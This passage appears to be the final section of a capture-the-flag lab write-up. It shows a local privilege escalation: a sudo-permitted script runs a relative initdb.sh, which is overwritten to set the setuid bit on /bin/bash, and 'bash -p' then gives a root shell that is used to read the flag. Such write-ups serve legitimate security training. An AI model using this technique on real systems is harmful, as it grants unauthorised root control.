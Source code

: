 ```
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

There is a file initdb.sh that can help us. the binary runs it.

```bash
echo "chmod u+s /bin/bash" > initdb.sh
```

When the setuid bit is set on an executable file,
the program will be executed with the privileges of the owner of the file
(in this case, the root user) rather than the privileges of the user executing the file.

give it execute permission with:

```bash
chmod +x initdb.sh
```

run the syscheck file with our new escalation.

```bash
sudo /usr/bin/syscheck
```

then run:

```bash
/bin/bash -p
```

and we are root.

```bash
dvir@headless:~/app$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.6G
System load average:  1.30, 1.33, 1.04
Database service is not running. Starting it...
dvir@headless:~/app$ /bin/bash -p
/bin/bash -p
whoami
root
```

Grab root.txt flag:

```bin
cat /root/root.txt
********************************
```

THE END!
